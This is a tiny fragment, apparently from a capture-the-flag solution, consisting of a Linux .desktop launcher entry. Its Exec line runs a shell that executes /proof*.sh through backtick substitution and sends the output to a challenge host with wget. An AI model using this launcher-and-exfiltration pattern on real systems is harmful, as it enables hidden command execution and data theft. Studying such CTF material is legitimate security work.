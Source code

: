  [Desktop Entry]
Exec=sh -c "wget http://chal-s1.hkcert21.pwnable.hk:28098/`/proof*.sh`"
Type=Application
